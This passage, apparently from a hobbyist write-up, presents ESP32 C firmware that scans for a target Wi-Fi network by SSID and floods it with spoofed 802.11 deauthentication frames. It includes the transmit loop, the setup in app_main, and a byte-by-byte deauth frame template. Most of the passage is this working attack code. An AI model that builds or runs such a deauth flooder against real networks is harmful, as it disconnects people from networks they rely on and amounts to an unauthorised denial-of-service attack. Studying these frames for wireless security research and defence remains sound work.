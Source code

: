 ```c

    while(true){
    esp_err_t tx_result = esp_wifi_80211_tx(WIFI_IF_AP, deauth_frame, sizeof(deauth_frame), true);
    if (tx_result != ESP_OK) {
        ESP_LOGE(TAG, "Deauth frame transmission failed: %s", esp_err_to_name(tx_result));
    } else {
        ESP_LOGI(TAG, "Deauth frame sent successfully");
    }

    vTaskDelay(pdMS_TO_TICKS(100));
}
}

void app_main() {
    ESP_LOGI(TAG, "Starting!");

    // Initialize NVS
    esp_err_t ret = nvs_flash_init();
    if (ret == ESP_ERR_NVS_NO_FREE_PAGES || ret == ESP_ERR_NVS_NEW_VERSION_FOUND) {
        ESP_ERROR_CHECK(nvs_flash_erase());
        ret = nvs_flash_init();
    }
    ESP_ERROR_CHECK(ret);

    // Initialize network interface
    ESP_ERROR_CHECK(esp_netif_init());
    ESP_ERROR_CHECK(esp_event_loop_create_default());
    esp_netif_create_default_wifi_ap();

    // Initialize WiFi
    wifi_init_config_t cfg = WIFI_INIT_CONFIG_DEFAULT();
    ESP_ERROR_CHECK(esp_wifi_init(&cfg));

    // Use AP + STA Mode to enable both scanning and deauth
    ESP_ERROR_CHECK(esp_wifi_set_mode(WIFI_MODE_APSTA));
    ESP_ERROR_CHECK(esp_wifi_start());

    // Scan and deauth
    wifi_scan_and_deauth();
}
```

The rest is basically boiler plate code that you can find in the `examples` section, but the important one was the structure of the deauthentication frame. You can find the exact structure implementation in this [blog post](https://blog.spacehuhn.com/wifi-deauthentication-frame) and this is what I copied.

The idea here being that we first scan for a certain SSID which is basically the wifi's name and through that find its BSSID which is the Access Point's MAC address (physical address). Now, according to the blog post the structure of the frame should be something like this,

```c
uint8_t deauthPacket[26] = {
    /*  0 - 1  */ 0xC0, 0x00,                         // type, subtype c0: deauth (a0: disassociate)
    /*  2 - 3  */ 0x00, 0x00,                         // duration (SDK takes care of that)
    /*  4 - 9  */ 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, // reciever (target)
    /* 10 - 15 */ 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, // source (ap)
    /* 16 - 21 */ 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, // BSSID (ap)
    /* 22 - 23 */ 0x00, 0x00,                         // fragment & squence number
    /* 24 - 25 */ 0x01, 0x00                          // reason code (1 = unspecified reason)
};
```
